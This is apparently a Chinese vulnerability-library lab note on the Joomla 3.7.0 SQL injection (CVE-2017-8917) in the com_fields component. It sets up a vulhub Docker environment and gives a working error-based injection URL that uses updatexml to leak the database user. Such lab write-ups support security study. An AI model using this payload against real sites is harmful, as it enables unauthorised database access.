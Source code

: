 ```yaml
---
title: 'Joomla 3.7.0  SQL注入漏洞CVE-2017-8917'
date: Tue, 06 Oct 2020 07:22:58 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 简介

漏洞是由此Joomla 3.7.0 版本中引入的新组件（com\_fields）带来的

#### 环境搭建

cd /root/vulhub/joomla/CVE-2017-8917 docker-compose up -d ![](./Joomla 3.7.0  SQL注入漏洞CVE-2017-8917/20200619122952854.png) 启动后访问http://your-ip:8080即可看到Joomla的安装界面 按照顺序安装即可 安装完成后，访问http://your-ip:8080/index.php?option=com\_fields&view=fields&layout=modal&list\[fullordering\]=updatexml(0x23,concat(1,user()),1)，即可看到报错信息： ![](./Joomla 3.7.0  SQL注入漏洞CVE-2017-8917/20200619123002609.png)